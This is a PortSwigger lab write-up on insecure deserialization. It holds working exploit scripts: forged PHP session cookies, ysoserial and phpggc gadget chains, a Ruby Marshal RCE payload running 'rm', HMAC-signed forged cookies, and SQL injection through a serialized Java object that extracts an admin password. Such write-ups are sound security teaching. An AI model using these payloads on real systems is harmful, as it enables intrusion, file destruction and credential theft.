




# Portswigger Writeups

## Lab 1: Modifying Serialised Objects

To solve this lab, become admin and delete carlos. When logged in as `wiener`, I saw this cookie being used:


This cookie was a PHP serialised object, and it had an `admin` field for me to use. 

```
O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:0;}
```

This particular cookie can be recreated using this PHP code:

```php
<?php

class User {
	public $username;
	public $admin;

	public function __construct($username, $admin) {
		$this->username = $username;
		$this->admin = $admin;
	}
}

	$wiener = new User("wiener", 1);
	$serial = serialize($wiener);
	echo $serial . "\n";
	echo "Exploit cookie: " . base64_encode($serial);
?>

#O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";i:1;}
#Exploit cookie: Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7aToxO30=
```

Afterwards, changing the cookie to the above value gives me access to the administrator panel.


Sending a GET request to `/admin/delete?username=carlos` should solve the lab.

```python
import requests
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

HOST = '0a7f00020427f666819734de00a40011'
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
url = f'https://{HOST}.web-security-academy.net'

cookies = {
	'session':'Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7aToxO30='
}

requests.get(url + '/admin/delete?username=carlos', cookies=cookies, proxies=proxies, verify=False)
```

## Lab 2: Modifying Serialized Data Types

To solve this lab, delete `carlos` as the admin. This is the cookie upon logging in as `wiener`:

```
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"h5rawvf8xwxpxqo55oxqlqr3fenwyx6p";}
```

A bit more substantial. The hint is to abuse how PHP compares variables, and the `access_token` is a string type.

This might be a hint to abuse loose comparison.


So since this is a string, I can compare it to a `TRUE` value OR 0.

```php
<?php

class User {
	public $username;
	public $access_token;

	public function __construct($username, $access_token) {
		$this->username = $username;
		$this->access_token = $access_token;
	}
}

	$wiener = new User("administrator", 0);
	$serial = serialize($wiener);
	echo $serial . "\n";
	echo "Exploit cookie: " . base64_encode($serial);
?>
```

To solve lab:

```python
import requests
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

HOST = '0a7200b3044e90d3807f49a8004e0000'
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
url = f'https://{HOST}.web-security-academy.net'

cookies = {
	'session':'Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtpOjA7fQ=='
}

requests.get(url + '/admin/delete?username=carlos', cookies=cookies, proxies=proxies, verify=False)
```

## Lab 3: Application Functionality Exploit

This lab uses deserialisation in the cookie. To solve the lab, delete `morale.txt` from `/home/carlos`. I was also given a backup account of `gregg:rosebud`, probably because I might have to delete an account. 

There's a bit more functionality within this lab:


I uploaded a sample PNG, and then deleted my account. THis was the cookie sent in the POST request to `/my-account/delete`:


The `avatar_link` was a directory on the website. I can change this to `/home/carlos/morale.txt` and delete the backup account. 

I intercepted the response and changed the cookie using this script:

```php
<?php

class User {
	public $username;
	public $access_token;
	public $avatar_link;

	public function __construct($username, $access_token, $avatar_link) {
		$this->username = $username;
		$this->access_token = $access_token;
		$this->avatar_link = $avatar_link;
	}
}

	$wiener = new User("gregg", 'b29u5o8d88pylon2d8p4umjk4dqdtnza', '/home/carlos/morale.txt');
	$serial = serialize($wiener);
	echo $serial . "\n";
	echo "Exploit cookie: " . base64_encode($serial);
?>
```

This solved the lab.

## Lab 4: Arbitrary Object Injection

I have to inject an object to this. To solve the lab, delete `/home/carlos/morale.txt`. In the page source, there was a mention of some source code:


The hint was to append a `~` to read editor-generated backup files, so visiting `/lib/CustomTemplate.php~` gave me source code:

```php
?php

class CustomTemplate {
    private $template_file_path;
    private $lock_file_path;

    public function __construct($template_file_path) {
        $this->template_file_path = $template_file_path;
        $this->lock_file_path = $template_file_path . ".lock";
    }

    private function isTemplateLocked() {
        return file_exists($this->lock_file_path);
    }

    public function getTemplate() {
        return file_get_contents($this->template_file_path);
    }

    public function saveTemplate($template) {
        if (!isTemplateLocked()) {
            if (file_put_contents($this->lock_file_path, "") === false) {
                throw new Exception("Could not write to " . $this->lock_file_path);
            }
            if (file_put_contents($this->template_file_path, $template) === false) {
                throw new Exception("Could not write to " . $this->template_file_path);
            }
        }
    }

    function __destruct() {
        // Carlos thought this would be a good idea
        if (file_exists($this->lock_file_path)) {
            unlink($this->lock_file_path);
        }
    }
}

?>
```

For some reason, it calls `unlink` in `__destruct()`, meaning the PHP script automatically calls `unlink`. the only important variable is the `lock_file_path` one. Using this script can exploit this:

```php
<?php

class CustomTemplate {
	public $template_file_path;
	public $lock_file_path;

	public function __construct($template_file_path, $lock_file_path) {
		$this->template_file_path = $template_file_path;
		$this->lock_file_path = $lock_file_path;
	}
}

	$wiener = new CustomTemplate("/whatever", '/home/carlos/morale.txt');
	$serial = serialize($wiener);
	echo $serial . "\n";
	echo "Exploit cookie: " . base64_encode($serial);
?>
```

Replace the output as the cookie, and send a request to the website to solve the lab.

## Lab 5: Java Deserialisation with Apache Commons

Java deserialisation means `ysoserial` is required. To solve the lab, delete `morale.txt`. 

The cookie for this lab is no longer PHP based.


This is a `CommonsCollections4` payload. First, generate the payload:

```
$ java -jar ysoserial-all.jar CommonsCollections4 'rm /home/carlos/morale.txt' |base64
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
rO0ABXNyABdqYXZhLnV0aWwuUHJpb3JpdHlRdWV1ZZTaMLT7P4KxAwACSQAEc2l6ZUwACmNvbXBh
cmF0b3J0ABZMamF2YS91dGlsL0NvbXBhcmF0b3I7eHAAAAACc3IAQm9yZy5hcGFjaGUuY29tbW9u
<TRUNCATED>
```

Afterwards, replace the session cookie with the output and URL encode it to solve the lab.

```python
import requests
import subprocess
import base64
from urllib.parse import quote
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

HOST = '0a76004f03a1396c80f70d89000d00e7'
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
url = f'https://{HOST}.web-security-academy.net'
payload = 'CommonsCollections4'
cmd = 'rm /home/carlos/morale.txt'

command = 'java -jar ysoserial.jar {} "{}"'.format(payload, cmd)
result_bytes = subprocess.run(command, shell=True, capture_output=True).stdout
encoded_payload = base64.b64encode(result_bytes).decode('utf-8').strip()
encoded_payload_url = quote(encoded_payload)
cookies = {
	'session':encoded_payload_url
}
requests.get(url + '/my-account?id=wiener', cookies=cookies, proxies=proxies, verify=False)
```

## Lab 6: PHP Gadget Chains

This lab uses a signed cookie, and a common PHP framework. There is no source code, but there are pre-built gadget chains. To solve the lab, delete `/home/carlos/morale.txt`.

The cookie looks rather different:


Here's the cookie:

```
$ echo 'Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJwMm16dThrajNreTZ1aW5jYXEzb3Rzc2NzZ2kxYjZoYyI7fQ==' | base64 -d
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"p2mzu8kj3ky6uincaq3otsscsgi1b6hc";}
```

Within the page source, there's a comment:


This page is the `pphinfo.php` page, and there's a `SECRET_KEY` variable:



Sending a modified cookie results in this error:


So this uses Symfony and I have a secret key. This means I probably have to use `phpggc` to generate my payload since gadget chains have to be exploited. 

Using `symfony/rce4` gives me the same version that the website is running:

```
$ phpggc -i symfony/rce4 
Name           : Symfony/RCE4
Version        : 3.4.0-34, 4.2.0-11, 4.3.0-7
Type           : RCE (Function call)
Vector         : __destruct
Informations   : 
Execute $function with $parameter (CVE-2019-18889)

./phpggc Symfony/RCE4 <function> <parameter>
```

Using this, I can generate a `base64` encoded payload.

```
$ phpggc Symfony/RCE4 exec 'rm /home/carlos/morale.txt' | base64
Tzo0NzoiU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxUYWdBd2FyZUFkYXB0ZXIiOjI6e3M6NTc6IgBTeW1mb255XENvbXBvbmVudFxDYWNoZVxBZGFwdGVyXFRhZ0F3YXJlQWRhcHRlcgBkZWZlcnJlZCI7YToxOntpOjA7TzozMzoiU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQ2FjaGVJdGVtIjoyOntzOjExOiIAKgBwb29sSGFzaCI7aToxO3M6MTI6IgAqAGlubmVySXRlbSI7czoyNjoicm0gL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO319czo1MzoiAFN5bWZvbnlcQ29tcG9uZW50XENhY2hlXEFkYXB0ZXJcVGFnQXdhcmVBZGFwdGVyAHBvb2wiO086NDQ6IlN5bWZvbnlcQ29tcG9uZW50XENhY2hlXEFkYXB0ZXJcUHJveHlBZGFwdGVyIjoyOntzOjU0OiIAU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxQcm94eUFkYXB0ZXIAcG9vbEhhc2giO2k6MTtzOjU4OiIAU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxQcm94eUFkYXB0ZXIAc2V0SW5uZXJJdGVtIjtzOjQ6ImV4ZWMiO319Cg==
```

Now, I need to fit this into my cookie. Since I am given the `SECRET_KEY` variable from earlier, I can sign and forge any cookies.

```python
import requests
import subprocess
import hmac
import hashlib
from urllib.parse import quote
import json
import base64
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

HOST = '0acf00ea04152dad80bdda8f00110047'
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
url = f'https://{HOST}.web-security-academy.net'
payload = "Tzo0NzoiU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxUYWdBd2FyZUFkYXB0ZXIiOjI6e3M6NTc6IgBTeW1mb255XENvbXBvbmVudFxDYWNoZVxBZGFwdGVyXFRhZ0F3YXJlQWRhcHRlcgBkZWZlcnJlZCI7YToxOntpOjA7TzozMzoiU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQ2FjaGVJdGVtIjoyOntzOjExOiIAKgBwb29sSGFzaCI7aToxO3M6MTI6IgAqAGlubmVySXRlbSI7czoyNjoicm0gL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO319czo1MzoiAFN5bWZvbnlcQ29tcG9uZW50XENhY2hlXEFkYXB0ZXJcVGFnQXdhcmVBZGFwdGVyAHBvb2wiO086NDQ6IlN5bWZvbnlcQ29tcG9uZW50XENhY2hlXEFkYXB0ZXJcUHJveHlBZGFwdGVyIjoyOntzOjU0OiIAU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxQcm94eUFkYXB0ZXIAcG9vbEhhc2giO2k6MTtzOjU4OiIAU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxQcm94eUFkYXB0ZXIAc2V0SW5uZXJJdGVtIjtzOjQ6ImV4ZWMiO319Cg=="
key = "d2fxzcoucq4q9tu02ohy515fdr5uyha4"

signature = hmac.new(bytes(key, "UTF=8"), payload.encode(), hashlib.sha1).hexdigest()


json_cookie = json.dumps({"token": payload, "sig_hmac_sha1": signature})
encoded_payload = quote(json_cookie)

cookies = {
	'session':encoded_payload
}

r = requests.get(url, cookies=cookies, proxies=proxies, verify=False)
```

This solves the lab.

## Lab 7: Ruby Gadget Chain

This lab uses the Ruby on Rails framework, and there are documented exploits to enable RCE via a gadget chain. To solve the lab, delete `/home/carlos/morale.txt`.

Sending a malformed cookie results in a Ruby error:



When searching for exploits, I found this:



Here's the edited final script:

```ruby
require "base64"
# Autoload the required classes
Gem::SpecFetcher
Gem::Installer

# prevent the payload from running when we Marshal.dump it
module Gem
  class Requirement
    def marshal_dump
      [@requirements]
    end
  end
end

wa1 = Net::WriteAdapter.new(Kernel, :system)

rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
rs.instance_variable_set('@git_set', "rm /home/carlos/morale.txt")

wa2 = Net::WriteAdapter.new(rs, :resolve)

i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")


n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)

t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)

r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)

payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])
puts Base64.encode64(payload)
```

I ran this here:



This gave me this as the output:

```
BAhbCGMVR2VtOjpTcGVjRmV0Y2hlcmMTR2VtOjpJbnN0YWxsZXJVOhVHZW06OlJlcXVpcmVtZW50WwZvOhxHZW06OlBhY2thZ2U6OlRhclJlYWRlcgY6CEBpb286FE5ldDo6QnVmZmVyZWRJTwc7B286I0dlbTo6UGFja2FnZTo6VGFyUmVhZGVyOjpFbnRyeQc6CkByZWFkaQA6DEBoZWFkZXJJIghhYWEGOgZFVDoSQGRlYnVnX291dHB1dG86Fk5ldDo6V3JpdGVBZGFwdGVyBzoMQHNvY2tldG86FEdlbTo6UmVxdWVzdFNldAc6CkBzZXRzbzsOBzsPbQtLZXJuZWw6D0BtZXRob2RfaWQ6C3N5c3RlbToNQGdpdF9zZXRJIh9ybSAvaG9tZS9jYXJsb3MvbW9yYWxlLnR4dAY7DFQ7EjoMcmVzb2x2ZQ==
```

URL encode this and set it as the cookie. Sending a request would solve the lab.

## Lab 8: Custom Java Gadget Chain

This lab requires me to exploit insecure deserialisation to obtain the administrator's password, then delete `carlos`.

There's a comment in the page source:



Viewing `/backup` shows two files:


Here's the source for `AccessTokenUser.java`:

```java
package data.session.token;

import java.io.Serializable;

public class AccessTokenUser implements Serializable
{
    private final String username;
    private final String accessToken;

    public AccessTokenUser(String username, String accessToken)
    {
        this.username = username;
        this.accessToken = accessToken;
    }

    public String getUsername()
    {
        return username;
    }

    public String getAccessToken()
    {
        return accessToken;
    }
}
```

And here's the other source code:

```java
package data.productcatalog;

import common.db.JdbcConnectionBuilder;

import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.Serializable;
import java.sql.Connection;
import java.sql.ResultSet;
import java.sql.SQLException;
import java.sql.Statement;

public class ProductTemplate implements Serializable
{
    static final long serialVersionUID = 1L;

    private final String id;
    private transient Product product;

    public ProductTemplate(String id)
    {
        this.id = id;
    }

    private void readObject(ObjectInputStream inputStream) throws IOException, ClassNotFoundException
    {
        inputStream.defaultReadObject();

        JdbcConnectionBuilder connectionBuilder = JdbcConnectionBuilder.from(
                "org.postgresql.Driver",
                "postgresql",
                "localhost",
                5432,
                "postgres",
                "postgres",
                "password"
        ).withAutoCommit();
        try
        {
            Connection connect = connectionBuilder.connect(30);
            String sql = String.format("SELECT * FROM products WHERE id = '%s' LIMIT 1", id);
            Statement statement = connect.createStatement();
            ResultSet resultSet = statement.executeQuery(sql);
            if (!resultSet.next())
            {
                return;
            }
            product = Product.from(resultSet);
        }
        catch (SQLException e)
        {
            throw new IOException(e);
        }
    }

    public String getId()
    {
        return id;
    }

    public Product getProduct()
    {
        return product;
    }
}
```

PortSwigger has provided a simple Java program for serialising objects on Github and `replit`.





### Code Analysis --> Create Object

Starting with `ProductTemplate`, the class has a string variable of `id`. This `id` variable is passed to a SQL query:

```java
String sql = String.format("SELECT * FROM products WHERE id = '%s' LIMIT 1", id);
```

The `id` parameter is not sanitised, and I can try to create a Java program to set it to `'` to escape the query. Firstly, I need to create a serialised object for `ProductTemplate`.

Here are the variables and constructor for `ProductTemplate`, which need to be copied over.

```java
static final long serialVersionUID = 1L;

private final String id;
private transient Product product;

public ProductTemplate(String id)
{
	this.id = id;
}
```

Note that it uses a `Product` variable. Since I do not actually care about the `product` variable, this class can be empty like:

```java
package data.productcatalog;

public class Product {

}
```

Note that the original code packages it as **`data.productcatalog`**, so create a package like so:


Afterwards, use `package.productcatalog` to package it as per the source code.

Here's the code I used:

```java
import data.productcatalog.ProductTemplate;
class Main {
    public static void main(String[] args) throws Exception {
        ProductTemplate originalObject = new ProductTemplate("'");

        String serializedObject = serialize(originalObject);

        System.out.println("Serialized object: " + serializedObject);

        ProductTemplate deserializedObject = deserialize(serializedObject);

        System.out.println("Deserialized data ID: " + deserializedObject.getId());
    }

// CLASSES USED

// Product class used just to let ProductTemplate compile
package data.productcatalog;
public class Product {
}

// ProductTemplate class
package data.productcatalog;
import java.io.Serializable;
public class ProductTemplate implements Serializable {
    static final long serialVersionUID = 1L;
    private final String id;
    private transient Product product;

    public ProductTemplate(String id)
    {
        this.id = id;
    }

    public String getId()
    {
        return id;
    }

    public Product getProduct()
    {
        return product;
    }
}
```

This program outputs this:

```
Serialized object: rO0ABXNyACNkYXRhLnByb2R1Y3RjYXRhbG9nLlByb2R1Y3RUZW1wbGF0ZQAAAAAAAAABAgABTAACaWR0ABJMamF2YS9sYW5nL1N0cmluZzt4cHQAASc=
Deserialized data ID: '
```

The above can be sent into the website, and I will receive an SQL error:



This means we have effectively injected parameters into the SQL query, and confirmed the SQL Injection vulnerability.

### SQL Injection via Deserialisation

Now, I can proceed to enumerate the database. Since I want to extract data, `UNION` injection must be used.

For this, I modified the Java code to take user input, and then built the `.jar`:

```java
ProductTemplate originalObject = new ProductTemplate(args[0]);
```

Now, I can try to automate this testing. I know that the database uses PostgreSQL from the source code, so I can begin to find the number of columns.

Using a payload of `' UNION SELECT NULL--` resulted in this:


From this, I can begin to brute force the number of columns. I wasn't sure how big it was going to be, so I scripted the process:

```python
import requests
import subprocess
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

HOST = '0ae700990366a1ee80b5ee5f005f00ac'
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
url = f'https://{HOST}.web-security-academy.net'

null_payload = ',NULL'
while True:
	
	payload = f'"\' UNION SELECT NULL{null_payload}--"'
	command = f'java -jar Test.jar {payload}'

	result = subprocess.run(command, shell=True, capture_output=True).stdout.decode('utf-8')
	match = re.search(r'Serialized object: ([a-zA-Z0-9]+)', result)
	if not match:
		print('[-] Error serializing')
		exit()
	serialised_cookie = match[1]
	cookies = {
		'session': serialised_cookie
	}

	r = requests.get(url, cookies=cookies, proxies=proxies, verify=False)
	if 'UNION query must have the same number of columns' not in r.text:
		print(f'[+] Payload: {payload}')
		exit()
	null_payload += ',NULL'
```

This returned this payload:

```sql
' UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--
```

So there are 8 columns. Now, I can check which column returns data. Typing `1` in random columns results in this error:


I was lazy to automate this process, so I tested each payload while printing out the error using some regex:

```python
r = requests.get(url, cookies=cookies, proxies=proxies, verify=False)
error = re.search(r'java.io.IOException: ([a-zA-Z.: ])+', r.text)
if not error:
	print('[-] weird error')
	exit()
print(f'Error: {error[0]}')
```

When changing the 4th, 5th and 6th column to `1`, it did not return this error. Instead, it returned this:


Using this, I can try to list the contents of the database using these columns, since they seem to return some values. 

Since error messages are being shown, and the 4th column do not expect string types, I can try using `CAST` to convert it to an integer.

```sql
' UNION SELECT NULL,NULL,NULL,CAST(table_name as integer),NULL,NULL,NULL,NULL FROM information_schema.tables--
```

This returns an error with the `users` table:


I updated the code to print the result:

```python
error = re.search(r'ERROR:[a-zA-Z.: ]+&quot;(.+)&quot;', r.text)
if not error:
	print('[-] weird error')
	exit()
print(f'Result: {error[1]}')
```

After some tweaking, I found the columns to be `username` and `password`. I can then retrieve the password of the `administrator`. Here's the full script:

```python
import requests
import subprocess
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

HOST = '0ae700990366a1ee80b5ee5f005f00ac'
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
url = f'https://{HOST}.web-security-academy.net'

payload = f'"\' UNION SELECT NULL,NULL,NULL,CAST(password as integer),NULL,NULL,NULL,NULL FROM users WHERE username=\'administrator\'--"'
command = f'java -jar Test.jar {payload}'

result = subprocess.run(command, shell=True, capture_output=True).stdout.decode('utf-8')
match = re.search(r'Serialized object: ([a-zA-Z0-9]+)', result)
if not match:
	print('[-] Error serializing')
	exit()
serialised_cookie = match[1]
cookies = {
	'session': serialised_cookie
}

r = requests.get(url, cookies=cookies, proxies=proxies, verify=False)
error = re.search(r'ERROR:[a-zA-Z.: ]+&quot;(.+)&quot;', r.text)
if not error:
	print('[-] weird error')
	exit()
print(f'Result: {error[1]}')
```


Log in and delete `carlos`. Fun lab to script!